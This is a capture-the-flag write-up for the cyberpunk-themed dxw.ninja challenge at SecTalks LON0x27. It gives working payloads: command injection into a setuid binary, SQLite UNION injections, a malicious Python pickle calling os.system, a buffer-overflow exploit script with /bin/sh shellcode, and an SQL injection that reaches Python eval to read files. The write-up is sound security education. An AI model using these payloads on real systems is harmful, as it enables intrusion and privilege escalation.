






# SecTalks LON0x27 - dxw.ninja CTF writeup

> So i've heard you like cyberpunk. Let's play a game.
> 
> The rules are simple: hack your way through the Tessier-Ashpool Corporation mainframe and find the secrets.
> 
> To get started, telnet* to dxw.ninja on port 2323 and register an account.
>
> Telnet is used for account registration only
> Challenges can be accessed via SSH only
> You will not be using your own credentials for SSH. Check out "Help" during account creation for a hint.

After registering an account, I furiously pressed Ctrl+C and Ctrl+Z to try and exit... [Telnet doesn't respect Ctrl+C](https://superuser.com/questions/486496/how-do-i-exit-telnet) and it's possibly even harder to exit than Vim.

The next step was figuring out the SSH credentials. The "Help" section in Telnet said "Hint: The Tessier-Ashpool AI has an SSH account, and it is quite fond of its twin..."

Reading William Gibson lore, I came across [Wintermute](https://williamgibson.fandom.com/wiki/Wintermute), Neuromancer's sibling AI. After a few guesses, the creds `wintermute:neuromancer` worked:

```bash
$ ssh -p 2222 wintermute@dxw.ninja
The authenticity of host '[dxw.ninja]:2222 ([34.250.157.14]:2222)' can't be established.
ECDSA key fingerprint is SHA256:F4i7rU6tFHrICUMvfuILWQHlSzfdL+tJgzZiP14p6Ho.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '[dxw.ninja]:2222,[34.250.157.14]:2222' (ECDSA) to the list of known hosts.                                                                                       
wintermute@dxw.ninja's password:
Last login: Thu Feb 27 23:30:00 2020 from 81.152.186.167
```

We are logged into an extremely cool old-school platform; little did anyone know at this point just how old-school it would get:



As a side note, something about the platform regularly messed up my terminal breaking copy-paste. Fortunately Tmux offers [a way around this](https://unix.stackexchange.com/questions/26548/write-all-tmux-scrollback-to-a-file); by using `capture-pane -S -3000` and then `save-buffer scrollback.txt` you can write your terminal history to a file.

## Binary ¥10

Accessing this challenge, we are given a shell which "feels" like a Docker container. First I confirm it's a Docker container from the system's cgroups:

```bash
user@5f446114c2e8:/app$ cat /proc/1/cgroup
12:cpuset:/docker/5f446114c2e8c692563c174bb8c914e98189060526994936063c5bffb64ec790
11:memory:/docker/5f446114c2e8c692563c174bb8c914e98189060526994936063c5bffb64ec790
...
```

And from `/etc/os-release` I see it's running Debian 10. Not necessary information yet but potentially useful later.

In `/app` there's a flag which is only readable by root, plus a binary:

```
user@5f446114c2e8:/app$ ls -la
total 36
drwxr-xr-x 1 root root  4096 Feb 27 21:32 .
drwxr-xr-x 1 root root  4096 Feb 27 21:32 ..
-r-------- 1 root root    72 Jan 23 16:23 flag
-rwsr-xr-x 1 root root 19520 Feb 27 16:52 main
```

There's a sparsity of tools in this container and we're telnetted inside a PTY inside a container inside an SSH session. How to analyse the binary? The way that came to mind was to base64-encode it:

```
user@5f446114c2e8:/app$ base64 main
f0VMRgIBAQAAAAAAAAAAAAMAPgABAAAAoBAAAAAAAABAAAAAAAAAAIBDAAAAAAAAAAAAAEAAOAAL
...
```

Then grab the output off the terminal, and decode it on my local system. I decompile in Ghidra:



From this it's clear that the user input gets passed directly to `system`, so it's a typical command injection vulnerability. I delimit a command with semicolons, and receive the flag:

```
user@5f446114c2e8:/app$ ./main ';cat flag;'
Hello
And y0u think it's this AI? Those things aren'T 4llowed anY autonomy...
```

## Web ¥5

Expecting to now break free of the terminal, we are instead dropped into Links, a text browser from the 90s:



The easiest web challenges often just require you to "View Source", so I search for a way to do that in Links.



After browsing to the suggested webpage and toggling to plain mode, the flag appears.

## Trivia ¥3

The growing time penalties for incorrect answers are funny, fortunately you can reset the timer by quitting the challenge.

```
Room entry accepted
What movie was William Gibson ultimately responsible for?
ANSWER> matrix
CORRECT

What is the name of the company Berry Rydell signs on in "Virtual Light"?
ANSWER> intensecure
CORRECT

What kind of cyberspace deck did Case use?
ANSWER> ono-sendai cybersapce vii
INCORRECT -- 5 second penalty

What kind of cyberspace deck did Case use?
ANSWER> ono-sendai cyberspace vii
CORRECT

COMPLETE
Th3 5treeT finDs its 0wn uses FOr th1ngs.
COMPLETE
```

## Web ¥10

Again in Links, this time there's just a username+password field so my first suspicion is SQL injection.



I try a basic SQL injection payload on the username field, and it works, but I get:

```
INSUFFICIENT ACCESS FOR USER wintermute
```

I don't make any further progress following this route so I use a `UNION SELECT` query to explore other tables in the DB after finding out that it's a SQLite backend.

The following queries respectively output the tables, the columns, and then the flag:

```
' UNION SELECT name FROM sqlite_master; --
' UNION SELECT sql FROM sqlite_master; --
' UNION SELECT value FROM flag; --
```

## Web ¥30

I am dropped into another Links session, which just says `SUCCESS`. There's nothing else happening in the browser so I use the menu option to go into an OS shell:

```bash
user@946801ab1ad6:/app$ ls -la
total 24
drwxr-xr-x 1 root root 4096 Feb 27 21:39 .
drwxr-xr-x 1 root root 4096 Feb 27 21:39 ..
---------- 1 user root    5 Jan 22 23:10 .a
-r-------- 1 root root   44 Jan 23 15:49 flag
-rw------- 1 root root  741 Jan 22 23:10 main.py
```

There's a suspicious `.a` file, however initially I have no permissions over it. Nevertheless, note that although it's group-owned by root, we have user ownership so can just `chmod 777` to read and write to it. 

Current contents are puzzling:

```bash
user@946801ab1ad6:/app$ cat .a
T~i%4
```

Modifying this file in any way, going back into the browser and reloading the page shows: `DESERIALIZATION FAILED`

Along with the fact that it's a Python webserver, this suggests it's a [malicious pickle](https://www.synopsys.com/blogs/software-security/python-pickling/) vulnerability.

Based on the linked resource I came up with the following:

```python
import pickle
import os
import base64

class RunBinSh(object):
  def __reduce__(self):
    return (os.system, ('chmod 777 flag',))

print pickle.dumps(RunBinSh())
```

It works locally but I can't get it working remotely and waste quite a bit of time here. The challenge setter drops a hint that I shouldn't be fooled by the `~` and `%`.

The webserver turns out just to load base64-encoded pickles and those symbols had indeed thrown us off. Base64-encoding my payload and reloading the webserver works and allows us to read the flag.

## Binary ¥50

```bash
user@3f5cd75f4839:/app$ ls -la
total 44
drwxr-xr-x 1 root root  4096 Feb 28 21:56 .
drwxr-xr-x 1 root root  4096 Feb 28 21:56 ..
-r-------- 1 root root    40 Jan 23 15:50 flag
-rwsr-xr-x 1 root root 20608 Feb 27 16:52 main
---------- 1 user root   148 Feb 29 00:36 message
user@3f5cd75f4839:/app$ cat message
2u?Can the maker repair what he makes?
```

Running the program it prints what appear to be two memory addresses and then a few seconds later the contents of `message`, without the few odd bytes at the front:

```bash
user@a48cafb41599:/app$ ./main
0x55ff26a832af
0x7ffc5fcc3120
Can the maker repair what he makes?
```

Once again I use base64 to grab the binary off the machine and annotate the decompilation in Ghidra:



I see that the main function:
1. creates a 100 character buffer
1. sets uid to 0 allowing us to escalate to root
1. prints pointers to main and the start of the buffer
1. reads the first four bytes from the message file into a 32 bit uint.
1. reads the remainder of the file into the buffer.
1. calculates the CRC32 of the buffer 
1. compares the CRC32 to the first four bytes read
1. if they are the same, prints a message, otherwise clears the buffer

The CRC32 of the example message must be correct because the program is printing out the sentence. I view the message in a hex editor on my machine:

```
$ base64 -d <<< MnU/5UNhbiB0aGUgbWFrZXIgcmVwYWlyIHdoYXQgaGUgbWFrZXM/ | xxd
00000000: 3275 3fe5 4361 6e20 7468 6520 6d61 6b65  2u?.Can the make
00000010: 7220 7265 7061 6972 2077 6861 7420 6865  r repair what he
00000020: 206d 616b 6573 3f                         makes?
```

Checking the CRC32 of the sentence myself, it's 0xe53f7532 - that matches apart from that it's stored in the file in little-endian format.

I load up the binary in GDB and see what mitigations it has:
```
gdb-peda$ checksec
CANARY    : disabled
FORTIFY   : disabled
NX        : disabled
PIE       : ENABLED
RELRO     : Partial
```

Overall this looks like a typical stack-smashing vulnerability, where arbitrary input is being loaded into a static buffer; this allows us to overflow the buffer, overwrite the return address, and execute from any location we choose.

The constraints are: 
 - the buffer must be CRC32'd (but that's not hard)
 - there's no "win" function (but we can use shellcode)
 - due to ASLR the position of the stack changes each run (but it does print out the start address of the buffer)
 - we can't write exploits onto this container (but we can find a way around that)

After grinding away in GDB, I have the following working exploit locally. I see that the return address is stored 36 bytes after the end of the buffer; and had to be careful not to overwrite some of the nullbytes on this part of the stack with different values, or ironically it would cause the code that writes a nullbyte to the end of the buffer to miscalculate and segfault.

```python
import struct
import zlib

shellcode = b"\x50\x48\x31\xd2\x48\x31\xf6\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x53\x54\x5f\xb0\x3b\x0f\x05"

buf  = b"\x90" * (100 - len(shellcode))
buf += shellcode
buf += b"\x00" * 36
buf += struct.pack('<Q', CHANGEME + 4)

crc = zlib.crc32(buf)
payload = struct.pack('<I', crc) + buf

with open('message', 'wb') as f:
    f.write(payload)
```

`CHANGEME` here should be replaced with the pointer to the beginning of the buffer. This is what overwrites the return address, sending control back to the NOP-sled then the shellcode I downloaded from some dodgy site on the net.

There's a final hurdle - how to actually run this on the remote machine? I once again use base64, this time to "live-execute" the Python code in a second terminal window. Then manually stick the correct address in using sed during the three seconds sleep:

```bash
echo aW1wb3J0IHN... | base64 -d | sed 's/CHANGEME/0x7fff102ca630/' | python3
```

Stupid, but it works. In retrospect I realised that I could have just written the exploit to /tmp 🤦‍♂️.

## Trivia ¥100

Unsure where to find the answer to the second question, I just incrementally guessed it.

```
Room entry accepted
What term did William Gibson popularise?
ANSWER> cyberspace
CORRECT

How many times did he appear on screen?
ANSWER> 13
CORRECT

RENOUNCER AM, OZONE CURT, TRIVIAL L THUG, ???, HEALTHIER PERP. What comes after the third item on this list?
ANSWER> Idoru
CORRECT

Interplay, BBC World Service, Time Warner Audiobooks, Julian Morgan Theatre. Find the common ground.
ANSWER> Neuromancer
CORRECT

COMPLETE
Case f3ll int0 the pri5on of his 0wn flesh.
COMPLETE
```

## Web ¥120

It's another username+password field but this time the injection appears to be in the password field. I make testing a bit more efficient by using cURL:

```bash
user@dc9342234b40:/app$ curl -X POST http://localhost/login -d "username=bla&password=bla"
<b>INVALID CREDENTIALS</b>
```

Since the container has Python, I can pull down [sqlmap](https://github.com/sqlmapproject/sqlmap/wiki/Usage) and let it do much of the dirty work:

```
user@dc9342234b40:/tmp/sqlmap$ python sqlmap.py -u "http://127.0.0.1/login" --data="username=bla&password=bla" -p "password" --dbms sqlite --sql-shell
```

This finds a working UNION query and gives a SQL prompt where I can execute further commands. I enumerate the database:

```
sql-shell> select name from sqlite_master;
[15:49:28] [INFO] fetching SQL SELECT statement query output: 'select name from sqlite_master'
[15:49:28] [INFO] retrieved: 'users'
[15:49:28] [INFO] retrieved: 'v_t'
select name from sqlite_master [2]:
[*] users
[*] v_t

sql-shell> select sql from sqlite_master;
[15:49:33] [INFO] fetching SQL SELECT statement query output: 'select sql from sqlite_master'
[15:49:34] [INFO] retrieved: 'CREATE TABLE users (username text, password text)'
[15:49:34] [INFO] retrieved: 'CREATE VIEW v_t AS SELECT eval('5+3')'
select sql from sqlite_master [2]:
[*] CREATE TABLE users (username text, password text)
[*] CREATE VIEW v_t AS SELECT eval('5+3')
```

There's a users table but nothing in it. The VIEW is interesting - a VIEW is just a stored query in SQLite and here it's evaluating something which probably isn't an in-built feature of SQLite. I try running the query or creating new views but it seems sqlmap doesn't play nicely with views. So I patch the sqlmap code on the container to actually return results, but still can't get it working...

The `eval` appears to be a [SQLite extension](https://sqlite.org/src/file/ext/misc/eval.c) but I can't find many docs on it.

After a lot of fruitless searching I got a hint that the `eval` may just be a Python eval. I had tried that earlier and it seemed to error out on anything interesting I tried. It turned out I'd probably been getting the encoding wrong.

I switch SQLmap into verbose mode to capture some of the queries it was actually running; it was doing something like:

```
') UNION ALL SELECT 'qpppq'||COALESCE("eval('1+2')",' ')||'qpzxq'-- hTfB
```

and then urlencoding it. The nice thing about this query is that it will error if there's any problem with the `eval`, otherwise it will put the result in the middle of the username, or if the eval returned None then it will try to logon as the user "qpppq qpzxq" and which tells us if the eval ran successfully at least.

I just want to open the flag file:


```
') UNION ALL SELECT 'qpppq'||COALESCE("open('/app/flag').read()",' ')||'qpzxq'-- hTfB
```

Final payload:

```
user@dc9342234b40:/app$ curl -X POST http://localhost/login -d "username=bla&password=%27%29%20UNION%20ALL%20SELECT%20%27qpppq%27%7C%7CCOALESCE%28eval%28%22open%28%27%2Fapp%2Fflag%27%29.read%28%29%22%29%2C%27%20%27%29%7C%7C%27qpzxq%27--%20hTfB"
<b>INSUFFICIENT ACCESS FOR USER qpppqBe qu13t, darling. Let pAttern rec0gnition have its w4y.
```

## Bin ¥250

```bash
user@aef4d4aed866:/app$ ls -lah
total 44K
drwxr-xr-x 1 root root 4.0K Feb 29 15:02 .
drwxr-xr-x 1 root root 4.0K Feb 29 15:02 ..
-rw-r--r-- 1 root root  129 Jan 22 23:10 flag
-rw------- 1 root root   64 Jan 22 23:10 key
-rws--x--x 1 root root  20K Feb 27 16:52 main
-r-------- 1 root root 1011 Jan 22 23:10 rmain.py
user@aef4d4aed866:/app$ base64 main
base64: main: Permission denied
user@aef4d4aed866:/app$ ./main
AES256 HSM Tester
USAGE: ./main encrypt [plaintext]
USAGE: ./main load [hex key data]
user@aef4d4aed866:/app$ cat flag
```
Some black box cipher stuff. Will come back to it later.

## Bin ¥500

This one looks horrible, maybe I'll be 1337 enough one day...

